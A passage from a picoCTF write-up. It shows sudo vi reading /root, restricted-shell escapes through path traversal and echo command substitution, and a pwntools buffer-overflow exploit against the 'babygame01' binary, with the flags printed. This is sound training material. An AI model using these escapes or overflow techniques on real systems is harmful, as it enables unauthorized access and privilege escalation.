    (ALL) /usr/bin/vi
```

Run `vi` as sudo to list documents under the `/root` directory

```bash
picoplayer@challenge:~$ sudo vi /root/
```



Press Enter to view the `.flag.txt` file

Flag: `picoCTF{uS1ng_v1m_3dit0r_55878b51}`

### Special

Description: `Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)`

Bypass shell restrictions by using relative paths and path traversal to access binaries to then list directories and view `flag.txt`

```bash
Special$ /usr/bin/ls
Absolutely not paths like that, please!
Special$ ~/../../usr/bin/ls
~/../../usr/bin/ls 
blargh
Special$ ~/../../usr/bin/ls blargh/
~/../../usr/bin/ls blargh/ 
flag.txt
Special$ ~/../../usr/bin/cat blargh/flag.txt
~/../../usr/bin/cat blargh/flag.txt 
picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}Special$ 
```

Resource: `https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions`

### Specialer

Description: `Reception of Special has been cool to say the least. That's why we made an exclusive version of Special, called Secure Comprehensive Interface for Affecting Linux Empirically Rad, or just 'Specialer'. With Specialer, we really tried to remove the distractions from using a shell. Yes, we took out spell checker because of everybody's complaining. But we think you will be excited about our new, reduced feature set for keeping you focused on what needs it the most. Please start an instance to test your very own copy of Specialer.`

Bypass shell restrictions by using `echo` and command substitution to list files and view the contents of those files

```bash
Specialer$ echo *
abra ala sim test.sh
Specialer$ echo abra/*
abra/cadabra.txt abra/cadaniel.txt
Specialer$ echo "$(<abra/cadaniel.txt)"
Yes, I did it! I really did it! I'm a true wizard!
Specialer$ echo "$(<abra/cadaniel.txt)"
Yes, I did it! I really did it! I'm a true wizard!
Specialer$ echo ala/*
ala/kazam.txt ala/mode.txt
Specialer$ echo "$(<ala/kazam.txt)"
return 0 picoCTF{y0u_d0n7_4ppr3c1473_wh47_w3r3_d01ng_h3r3_838b49d1}
Specialer$ 
```

Resource: `https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions`


## Binary Exploitation

### babygame01

Description: `Get the flag and reach the exit. Welcome to BabyGame! Navigate around the map and see what you can find! The game is available to download here. There is no source available, so you'll have to figure your way around the map.`

Download the `./game` file. Make sure it's executable by running `chmod +x game`.

Running strings on the file shows that there's some interesting functions within the binary.

```
$ strings game        
/lib/ld-linux.so.2
_IO_stdin_used
exit
signal
stdout
__libc_start_main
putchar
puts
printf
getchar
fflush
fgets
sleep
fopen
__stack_chk_fail
libc.so.6
GLIBC_2.1
GLIBC_2.4
GLIBC_2.0
GLIBC_2.34
__gmon_start__
flag.txt
flag.txt not found in current directory
Player position: %d %d
End tile position: %d %d
Player has flag: %d
You win!
flage
;*2$"
@GCC: (Ubuntu 11.3.0-1ubuntu1~22.04) 11.3.0
crt1.o
__abi_tag
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
game.c
__FRAME_END__
_DYNAMIC
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
solve_round
__libc_start_main@GLIBC_2.34
__x86.get_pc_thunk.bx
printf@GLIBC_2.0
fflush@GLIBC_2.0
getchar@GLIBC_2.0
fgets@GLIBC_2.0
_edata
init_player
signal@GLIBC_2.0
move_player
sleep@GLIBC_2.0
_fini
sigint_handler
__stack_chk_fail@GLIBC_2.4
find_end_tile_pos
init_map
__data_start
puts@GLIBC_2.0
__gmon_start__
exit@GLIBC_2.0
__dso_handle
_IO_stdin_used
print_map
fopen@GLIBC_2.1
player_tile
putchar@GLIBC_2.0
_end
_dl_relocate_static_pie
_fp_hw
find_player_pos
stdout@GLIBC_2.0
__bss_start
main
__x86.get_pc_thunk.ax
clear_screen
__stack_chk_fail_local
__TMC_END__
print_flag_status
_init
.symtab
.strtab
.shstrtab
.interp
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got
.got.plt
.data
.bss
.comment
```

For this challenege it took me a lot of trial and error to figure out how to make the game do what I wanted. I figured out that if you gave the input of `move_player`, which is one of the function names, the game was won automatically, but no flag was displayed.

```
Player position: 29 89
Player has flag: 0
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
.........................................................................................@
You win!
```

I also found out that if you inputted enough lowercase a's, that it would cause a seg fault. Which would cause the value of `Player has flag` to turn to a value other than zero.

```
End tile position: 29 89
Player has flag: 46
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
.........................................................................................X
zsh: segmentation fault  ./game
```

So, I started making a payload of a's with python. I wanted to find the right number to input that wouldn't cause a seg fault. Using a binary tree search algorithm, I was able to find the right number was 368.

```python
python3 -c 'print("a" * 368)'
```

This resulted in `Player has flag: 64`. If I then entered `move_player` after this, I would get the flag. But because I was running this on the local binary, there was no actual flag to be had.

```
Player position: 29 89
Player has flag: 46
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
.........................................................................................@
You win!
flage
flag.txt not found in current directory
```

Then I determined to create an exploit script using `pwntools`. I first made sure it worked on the local binary, then I gave it the ability to make a remote connection to the online instance.

```python
#!/usr/bin/python3

from pwn import *

host = 'saturn.picoctf.net'
port = 63984

#context.log_level = 'DEBUG'

#io = process('./game')
io = remote(host, port)

payload = "a" * 368
payload += "move_player"

io.sendline(payload)
print(io.recvline())

io.interactive()
```

Running the above script got me the flag!

```
picoCTF{gamer_m0d3_enabled_3a7b1717}[*] Got EOF while reading in interactive
$ ```
